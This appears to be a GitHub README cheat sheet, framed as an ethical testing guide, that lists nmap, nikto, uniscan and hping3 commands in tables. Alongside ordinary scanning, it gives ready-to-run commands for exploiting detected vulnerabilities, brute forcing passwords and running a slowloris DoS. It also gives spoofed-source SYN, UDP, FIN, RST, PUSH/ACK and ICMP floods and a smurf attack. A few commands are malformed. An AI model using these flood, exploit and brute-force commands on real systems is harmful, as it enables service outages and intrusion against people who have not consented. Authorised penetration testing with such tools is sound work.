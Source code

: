 # This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 
* NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED! *
***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| : --- : | : --- : |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |
| Perform DoS attack | `nmap -max-parallelism 750 -Pn --script http-slowloris --script-args` |


## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| : --- : | : --- : |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| : --- : | : --- : |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| : --- : | : --- : | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
<div class="alert alert-success">
Additional studying and training is recommended below this point
</div>
***


